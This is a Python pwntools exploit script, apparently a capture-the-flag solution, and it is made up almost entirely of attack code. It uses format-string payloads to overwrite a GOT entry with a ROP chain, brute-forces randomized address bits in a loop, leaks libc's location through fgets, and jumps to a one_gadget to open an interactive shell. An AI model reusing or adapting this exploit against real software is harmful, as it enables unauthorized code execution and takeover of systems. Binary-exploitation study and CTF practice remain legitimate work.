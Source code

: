 ```py
ropchain = flat(rop.chain(), length=512)
print(rop.dump())

fmt = "%4${}c".format(24 + len(ropchain)).encode()

payload = flat({
    0: fmt,
    0x8: b"%12$p%9c",
    0x10: pack(exe.got['memset']) + ropchain,
    }, filler=b' ')

info("Payload size: " + str(len(payload)))

overwrites = flat([
    hex(rop.find_gadget(['leave', 'ret'])[0]).encode(),
    b"%2c\x00%16c\x00",
    ])

print(overwrites)

guesses = [*range(0x0, 0x10)]
print(guesses)

i = 0
while True:
    io = start()

    #pause()

    io.send(fmt)
    io.send(payload)
    io.send(overwrites)
    guess_guess = guess_base | (0x1000 * guesses[i % len(guesses)])
    print("*** TRYING {} ***".format(hex(guess_guess)))
    io.send(b'<><%5$s><>%5$p-\x00')
    io.send("%{}c%5$hn"
            .format(restore_base | (0x1000 * guesses[i % len(guesses)]))
            .ljust(15, '-')
            .encode() + b'\x00')
    io.send(p16(guess_guess))

    try:
        io.recvuntil(b"<><")
        leak = io.recvuntil(b"><>", drop=True)
        print(leak)
        libc.address = unpack(leak.ljust(8, b'\x00')) - libc.sym['fgets']

        io.success("LIBC: " + hex(libc.address))
        io.send(pack(libc.address + one_gadget) + pack(0))

        #io.interactive()
        #break

        out = io.recv(8, timeout=2)
        print(out)
        io.interactive()
        io.close()
        break
    except:
        io.close()

    i += 1
```